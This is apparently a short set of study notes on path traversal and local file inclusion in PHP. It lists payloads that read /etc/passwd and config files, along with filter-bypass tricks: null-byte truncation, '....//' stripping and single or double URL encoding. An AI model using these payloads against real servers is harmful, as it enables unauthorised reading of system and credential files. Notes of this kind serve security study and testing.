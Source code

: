 [[php]]
* `/etc/passwd`
* `../../..etc/passwd`
* `language=./languages/../../../../etc/passwd` - bypass whitelist
* %00 - PHP stops reading file path and name, e. g. ../../../etc/passwd%00.php
* ....//....//....//etc/passwd - to bypass auto replace
* double URL encode, whole URL or just . / symbols
#### Obfuscation [[encoding]]
1. **URL Encoded Bypass:** The attacker can use the URL-encoded version of the payload like `?file=%2e%2e%2fconfig.php`. The server decodes this input to `../config.php`, bypassing the filter.
2. **Double Encoded Bypass:** The attacker can use double encoding if the application decodes inputs twice. The payload would then be `?file=%252e%252e%252fconfig.php`, where a dot is `%252e`, and a slash is `%252f`. The first decoding step changes `%252e%252e%252f` to `%2e%2e%2f`. The second decoding step then translates it to `../config.php`.
3. **Obfuscation:** An attacker could use the payload `....//config.php`, which, after the application strips out the apparent traversal string, would effectively become `../config.php`.
